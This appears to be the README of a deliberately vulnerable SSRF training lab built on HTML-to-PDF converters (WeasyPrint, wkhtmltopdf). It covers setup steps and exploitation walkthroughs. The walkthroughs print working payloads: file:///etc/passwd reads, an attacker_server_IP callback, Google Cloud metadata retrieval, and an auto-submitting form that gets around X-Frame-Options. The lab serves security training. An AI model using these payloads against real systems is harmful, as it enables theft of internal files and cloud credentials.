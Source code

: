 # 1.0 SSRF in HTML to PDF converter functionality

<b>Exploitation Difficulty: Easy</b><br>

These are the SSRF scenario based on the fact that when web application accepting the user user input, placing them in HTML and pass the HTML code to "HTML to PDF generator".
<br><br>When HTML code will be processed by the "HTML to PDF generator", HTML code will be evaluated to corresponding representation of that HTML code in web browser.
<br>In this case, if attacker supplied data is not getting senitized or filtered before placing it to HTML code, attacker can trick "HTML to PDF generator" software to access the internal Hosts/domains. 

We have scenarios of 2 "HTML to PDF generator" which allow an attacker to exploit SSRF vulnerability if web application is passing the untrusted user supplied data to HTML code.
<br>These "HTML to PDF generator" are:

    1. Weasyprint 
    2. wkhtmltopdf

<br><b>pdf_ssrf_weasyprint.php</b> is vulnerable script which is using <b>weasyprint</b>.
<br><b>pdf_ssrf_wkhtmltopdf.php</b> is vulnerable script which is using <b>wkhtmltopdf</b>.

<b>1.1 System Requirements:</b>
  
    1. Weasyprint and wkhtmltopdf converter must be installed on the machine.
    2. Web server with PHP support 

<b>1.2.1 Linux based setup: wkhtmltopdf</b>
<br>No change is required. This script is developed to work on Linux OS. 

<b>1.2.2 Windows based setup:</b>
<br>Below mentioned changes will be required:


Remove comment syntax from the line no "271" and "272" and make them like this

    $path_pdf_converter='C:\Program Files\wkhtmltopdf\bin\wkhtmltopdf.exe'; /*remove the comment if you want to use it on Windows machine*/
    passthru('"'.$path_pdf_converter.'" -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 sample.html output4.pdf'); /*remove the comment if you want to use it on Windows machine*/

Comment out the the line number 273 like this 

    //passthru('xvfb-run wkhtmltopdf -T 0 -R 0 -B 0 -L 0 --orientation Portrait --page-size A4 --quiet sample.html output4.pdf 2>&1');

<b>1.3 Installation</b>

wkthmltopdf
    
    sudo apt-get update
    sudo apt-get install xvfb libfontconfig wkhtmltopdf

weasyprint

As per the OS, follow steps from below mentioned URL to install the weasyprint:

https://weasyprint.readthedocs.io/en/stable/install.html
    

# 2.0 Exploitation


Let's start with exploitation and possible attack vectors to perform SSRF.

<b>2.1 SSRF in Weasyprint HTML to PDF generator</b>

Web application accepting user input via GUI.<br>  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/w1.png?raw=true)

Accepted the user input, placed it inside the HTML code and generated PDF by rendering the HTML code 

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/w2.png?raw=true)

After observing such behavior, try with following payloads to confirm whether web application code is vulnerable:

    <h1>test</h1>
    <img src=http://attacker_server_IP/>

If web application is processing the above mentioned payloads, go for below mentioned payloads to exploit SSRF.

<b>Payloads</b>

To grab the data from HTTP based URL, use below mentioned style payload

    <link rel=attachment href="http://web_URL">
    <link rel=attachment href="http://localhost/admin.php">
To grab the data from internal file system, use below mentioned style payload

    <link rel=attachment href="file://internal_file_path">
    <link rel=attachment href="file:///etc/passwd">
<b>2.1.1 Exploiting the SSRF - Google Cloud Metadata endpoint access</b>

Let's assume, web application is hosted inside the Google Cloud Platform. Now, try to grab the data from Google Cloud internal Metadata endpoint.
I saved sample username and password during the creation of the Virtual machine which are accessible on below mentioned URL:
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes

Below mentioned payload will grab and attach the HTTP response from the above metnioned Metadata URL to PDF:

    <link rel=attachment href="http://metadata.google.internal/computeMetadata/v1beta1/instance/?recursive=true">

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/pdf_generator/images/w3.png?raw=true)

Open the generated PDF and observe, nothing is there in customer name column. Download the generated PDF file to extract the data from it.

![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/w4.png?raw=true)

Extract the attached content from the downloaded PDF file using this Python <a href="https://github.com/incredibleindishell/SSRF_Vulnerable_Lab/blob/master/www/pdf_generator/weasy.py">Script</a> developed by Ben AKA Nahamsec. 

    python script.py  downloaded_file.pdf
  
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/w5.png?raw=true)

And Python script extracted the attached HTTP response from the Internal Metadata URL.

This is how an attacker can extract the HTTP response from other internal IPs/Hosts.

<b>2.2 SSRF in wkhtmltopdf, HTML to PDF generator</b>

An attacker can exploit SSRF in web application using wkhtmltopdf to generate the PDF from HTML having untrusted user supplied data placed in it. 

Web application is accepting user supplied data 
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/wk1.png?raw=true)

Generated PDF has user supplied data.
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/wk2.png?raw=true)

Payload to load internal app rendered HTTP response inside the PDF using <iframe> HTML tag is:
    
    <iframe src="http://internal_app" height=800px width=800px></iframe>

<b>Payload to access the web page which has "X-Frame-Options" header</b> in HTTP response and can not be loaded inside the <iframe> HTML tag.
    
    <body onload="document.createElement('form').submit.call(document.getElementById('myForm'))"><form id="myForm" name="myForm" action="http://internal_app" method=GET></form></body> 

Specify the above mentioned payload and submit the form
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/wk3.png?raw=true)

Open the generated the PDF and there we go....
![](https://github.com/incredibleindishell/SSRF_Vulnerable_lab/blob/master/www/pdf_generator/images/wk4.png?raw=true)


./Thanks

